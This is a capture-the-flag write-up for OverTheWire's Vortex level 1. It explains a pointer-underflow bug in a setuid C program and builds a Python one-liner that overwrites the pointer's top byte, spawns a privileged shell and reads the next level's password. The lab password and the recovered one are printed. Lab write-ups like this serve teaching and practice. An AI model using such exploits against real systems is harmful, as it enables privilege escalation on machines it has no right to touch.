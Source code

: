 ## Vortex Level 1 → Level 2
### Canary Values

Problem page: <http://overthewire.org/wargames/vortex/vortex1.html>

#### Preamble

Okay, vortex level 1, time to start writing exploits, but first, let's go over how these vortex problems work, let's ssh into the lab as vortex1 with the password we got in level 0.  
The `sshpass` program is useful for logging into the vortex machines without having to type the password each time.

```console
sshpass -p Gq#qu3bF3 ssh vortex1@vortex.labs.overthewire.org -p 2228
```

The goal of each vortex level is to get the password for the next level, these passwords can be found in `/etc/vortex_pass/` Let's try to get the password for the vortex2 user.

```console
vortex1@vortex:~$ cat /etc/vortex_pass/vortex2
cat: /etc/vortex_pass/vortex2: Permission denied
vortex1@vortex:~$ ls -l /etc/vortex_pass/vortex2
-r-------- 1 vortex2 vortex2 10 Aug 20 04:24 /etc/vortex_pass/vortex2
```

I didn't expect that to work, but it was worth a shot.  
We see that the owner of the password file is vortex2, so we'll need to convince the lab that we're that user in order to access that file.

The exploitable executables for each problem are located in `/vortex/`, let's look at `/vortex/vortex1`

```console
vortex1@vortex:~$ ls -l /vortex/vortex1
-r-sr-x--- 1 vortex2 vortex1 7607 Aug 20 04:24 /vortex/vortex1
```

What's important to notice here is that the [setuid bit](https://en.wikipedia.org/wiki/Setuid#When_set_on_an_executable_file) of the excecutable is set to `vortex2`, meaning that the file will run as vortex2, this is the case for all the vortex excecutables and will obviously be very useful for us in accessing those password files

Anyways, let's look at the actual code we're going to exploit

#### Finding the exploit

```C
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>


#define e(); if(((unsigned int)ptr & 0xff000000)==0xca000000) { setresuid(geteuid(), geteuid(), geteuid()); execlp("/bin/sh", "sh", "-i", NULL); }

void print(unsigned char *buf, int len)
{
  int i;

  printf("[ ");
  for(i=0; i < len; i++) printf("%x ", buf[i]);
  printf(" ]\n");
}

int main()
{
  unsigned char buf[512];
  unsigned char *ptr = buf + (sizeof(buf)/2);
  unsigned int x;

  while((x = getchar()) != EOF) {
    switch(x) {
    case '\n': print(buf, sizeof(buf)); continue; break;
    case '\\': ptr--; break; 
    default: e(); if(ptr > buf + sizeof(buf)) continue; ptr++[0] = x; break;
    }
  }
  printf("All done\n");
}
```

Okay, so the goal jumps out at you at the very start of this program

```C
#define e(); if(((unsigned int)ptr & 0xff000000)==0xca000000) { setresuid(geteuid(), geteuid(), geteuid()); execlp("/bin/sh", "sh", "-i", NULL); }
```

When `e()` is called, if the [most significant byte](https://en.wikipedia.org/wiki/Bit_numbering#Most_significant_byte) of `ptr` is equal to `0xca`, the program will set the real user ID to the effective user ID (i.e. vortex2), and then spawn a shell.  From that shell we would be able to read the contents of the password file.  
So our goal is to have the program call `e()` after we mess with the value of `ptr`, let's look at the program as a whole.

We have two main variables we're dealing with here:  
  * `buf`, a 512-length char array.
  * `ptr`, a char pointer which points to the 256th byte of `buf`

The rest of the program is a while loop that reads input into the `x` variable until `EOF` is received. For each character of input the program does one of 3 things:
  * If a newline is inputted, `buf` is printed
  * If a backslash is inputted, `ptr` is decremented, making it point one byte earlier in memory.
  * otherwise, `e()` is called, the value of whatever `ptr` is pointing at is set equal to `x`, then `ptr` is incremented

The way we can exploit this program is in the second case of this switch, `ptr` can be decremented past the start of `buf` and into other memory.  
Remember that our goal is to set the most significant byte of `ptr` to `0xca`. Since memory grows towards lower addresses in the vortex machine's architecture, `ptr` will be located directly `buf` in memory, so if we input enough backslashes, we will be able to have `ptr` point at its own address. We can then input the byte `0xca` into the program to alter `ptr` and be able to pass the conditional in `e()`.

#### Writing the Exploit

Okay so let's start writing the string we'll throw it the program to make it give us a shell. We'll use Python instead of C since strings are just a *teensy* bit easier.

Let's start with the 256 backslashes to get from `ptr`'s initial location to the start of `buf`

```python
print("\\" * 256)
```

Now we need to send some more backslashes to get to the byte we need, however this is a bit more complicated than it might seem. Memory is [alligned](https://en.wikipedia.org/wiki/Data_structure_alignment) differently in different architectures, so `ptr` might not be exactly 4 bytes before `buf`, we might be able to look up processor specifications and do some math to figure out exactly where the byte we need to alter is, but it'll probably be easier to use gdb to look at the disassembly of the program and see where an the stack our local variables are being stored.

```console
vortex1@vortex:~$ gdb /vortex/vortex1
(gdb) disassemble main
Dump of assembler code for function main:
0x080485c0 <+0>:     push   %ebp
0x080485c1 <+1>:     mov    %esp,%ebp
0x080485c3 <+3>:     push   %esi
0x080485c4 <+4>:     push   %ebx
0x080485c5 <+5>:     and    $0xfffffff0,%esp
0x080485c8 <+8>:     sub    $0x220,%esp
0x080485ce <+14>:    mov    %gs:0x14,%eax
0x080485d4 <+20>:    mov    %eax,0x21c(%esp)
0x080485db <+27>:    xor    %eax,%eax
0x080485dd <+29>:    lea    0x1c(%esp),%eax
0x080485e1 <+33>:    add    $0x100,%eax
0x080485e6 <+38>:    mov    %eax,0x14(%esp)
...
End of assembler dump.
(gdb) quit
```

The disassembly is pretty big, so I cut out everything after the info we need. We see that the start of `buf` is at `0x1c` on the stack, and that `ptr` is at `0x14`. Since the vortex machines are on a [little endian](https://en.wikipedia.org/wiki/Endianness#Little-endian) architecture, the most significant bit of `ptr` will be located at the end of the word, so at `0x17` in this case. `0x1c - 0x17 = 0x5` so the byte we need to point at is 5 bytes before the start of `buf`.  
Let's add those 5 more backslashes.

```python
print("\\" * 261)
```

So now we're pointing at the byte we need to change, so let's add the `0xca` byte to our string to set it in order to be able to pass the `e()` conditional.  
Remember that the default case of the program's switch statement also increments `ptr`, so we'll decrement it with another backslash in the incredibly unlikely case that `ptr` was equal to `0xcaffffff` and would have been incremented to `0xcd000000`
We finish off our exploit string with any character that's not `\n` or `\\`, this will call `e()` again and create the shell we need.

```python
print("\\" * 261 + chr(0xca) + "\\" + ".")
```

That'll have the shell spawned, let's add on a `whoami` and the `cat /etc/vortex_pass/vortex2` to the end of our exploit

```python
print("\\" * 261 + chr(0xca) + "\\" + "." + "\nwhoami\ncat /etc/vortex_pass/vortex2\n")
```

Alright, this should do it, let's run it!

```console
vortex1@vortex:~$ python -c 'print("\\" * 261 + "\xca" + "\\" + "." + "\nwhoami\n\cat /etc/vortex_pass/vortex2\n")' | /vortex/vortex1
vortex1@vortex:~$
```

Okay so nothing happened, which is sub-optimal obviously, but not all that bad.  
Normally before `/vortex/vortex1` exits, it prints out `"All done"`, but that didn't happen this time, so we know that we likely managed to successfully spawn the shell. What happened then, why didn't it run the `whoami` or `cat` commands?

#### Fixing the Exploit

Basically on the back end of Linux's syscalls, when a program calls `read()`, it tries to read `4096` bytes at a time, you can read more about the way this Linux does these buffers in [this article](http://www.pixelbeat.org/programming/stdio_buffering/).  
Anyways, the result of this behaviour is that there will be no input for the spawned shell to read, as the reads from `vortex2` will have consumed all the data. The shell will then immediately try to read, but only get an `EOF`, which the newly spawned shell interprets as an exit command.

A way we can get around this issue is by writing enough data after the `"."` to make our input be of length `4096` before the commands we want the shell to run.  
The length of our string before the commands is `264`, `4096 - 264 = 3832`, so our final string is:

```python
print("\\"*261 + chr(0xca) + "\\" + "." + "."*3832 + "\nwhoami\ncat /etc/vortex_pass/vortex2\n")
```

Running it:

```console
vortex1@vortex:~$ python -c 'print("\\"*261 + chr(0xca) + "\\" + "." + "."*3832 + "\nwhoami\ncat /etc/vortex_pass/vortex2\n")' | /vortex/vortex1
vortex2
23anbT\rE
vortex1@vortex:~$
```

There we go, level 1 solved! Thankfully level 2 will be a lot less long-winded than this one was.